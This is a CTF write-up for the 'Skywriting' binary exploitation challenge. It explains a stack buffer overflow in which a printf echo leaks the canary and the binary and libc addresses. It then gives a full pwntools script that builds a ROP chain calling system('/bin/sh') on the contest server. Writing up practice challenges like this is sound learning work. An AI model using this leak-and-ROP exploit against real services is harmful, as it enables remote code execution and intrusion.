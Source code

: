 # Skywriting

There's a lot of unnecessary bloat that I'll mostly ignore.

Cracking open the binary in ghidra, we see that the first input we get is actually a scanf, scanning a decimal integer into a variable. It then checks this integer against 1. If the integer isn't 1, it pops a shell - zsh. Nothing happens remotely, likely they do not have zsh. So that's not very useful.

What happens if the integer is 1? It continues with the rest of the execution of the program. The program opens up a never-ending prompt in which it asks for an input. If the input is the same as notflag{a_cloud_is_just_someone_elses_computer}\n when strcmp-ed,the program tells us we did it and rets. This will be useful later on to deliver our final exploit.

In the prompt, 0x200 bytes are read into rbp-0x90, creating a clear buffer overflow vulnerability.

Sadly, however, every protection is on. Canary, RELRO, PIE and most likely ASLR. We're going to need to leak somehow..  but how?

The read function does not null terminate. That means our input will not be null terminated as a string unless we enter a null byte. Not only this, but the program calls printf("%s??", input), printing the input back to us. Printf will only know the end of a string once it hits a null byte, meaning we can leak values off of the stack!

For example, say this was the stack

00 00 00 00 00 00 00 00 00 \<canary>

we could write like so

41 41 41 41 41 41 41 41 0a \<canary>

now, when it prints, it'll keep printing, leaking the canary and saved RBP. 

NOTE: Canaries start with null bytes! We will have to overflow one byte of the canary so that we can read the rest. It doesn't matter that we overflow the canary until we make the program ret, but by then we will know what the full canary is and be able to replace it.

We can use this again to leak the saved ret address, which will be __libc_start_main_ret. 
Once all these values are leaked, we send the finished exploit. notflag{a_cloud_is_just_someone_elses_computer}\n\x00 + padding + canary + more padding + poprdi + /bin/sh address + retgadget + systemaddress

NOTE: For some reason, the saved RBP value is a binary address. We don't strictly *need* the binary base here since libc will have rop gadgets, but it makes our lives a bit easier to get the saved RBP and then offset.
```python
from pwn import *
mode = sys.argv[1]
NUM_TO_CANARY = 0x90 - 0x8
NUM_TO_RET = NUM_TO_CANARY+16
retgadget  = 0x000000000000078e # ret
poprdi = 0x0000000000000bd3 # pop rdi ; ret
e = ELF("./sky")
def getproc():
    if mode == 'local':
        return e.process()
    else:
        return remote('2020.redpwnc.tf', 31034)
def setup():
    p = getproc()
    p.recvline()
    p.sendline("1")
    p.recvuntil("shot: ")
    return p 
def getoutput(data):
    global p
    p.sendline(data)
    p.recvuntil(data + b'\n')
    output = p.recvuntil("??")[:-2]
    p.recvuntil("shot: ")
    return output
libc = ELF("/lib/x86_64-linux-gnu/libc.so.6" if mode == 'local' else "/home/kali/Tools/libc-database/libs/libc6_2.27-3ubuntu1_amd64/libc.so.6")
p = setup()
#Leak canary and binary base
libret = 0x21b97 if mode == 'remote' else 0x26e0b
leak = getoutput(b"A" * (NUM_TO_CANARY))
canary = u64(b'\x00' + leak[:7])
log.info(f"Canary: {hex(canary)}")
pause()
rbp = u64(leak[7:] + b'\x00\x00')
e.address = rbp - 0xb70
log.info(f"Binary base: {hex(e.address)}")
#Leak libc base by leaking the libc start main ret
leak2 = getoutput(b"A" * (NUM_TO_RET-1))
libret_leak = u64(leak2 + b'\x00\x00')
log.info(f"Libc start main ret: {hex(libret_leak)}")
libcbase = libret_leak - libret
log.info(f"Libc base: {hex(libcbase)}")
libc.address = libcbase
retgadget += e.address
poprdi += e.address
# Everything has been leaked. Develop the final payload.
final =  flat(canary,b'C'*8,poprdi,next(libc.search(b"/bin/sh\x00")),retgadget,libc.symbols['system'],word_size=64)
padding = b"notflag{a_cloud_is_just_someone_elses_computer}\n\x00"
padding += b'B' * (NUM_TO_CANARY - len(padding))
p.sendline(padding + final)
p.interactive()
```
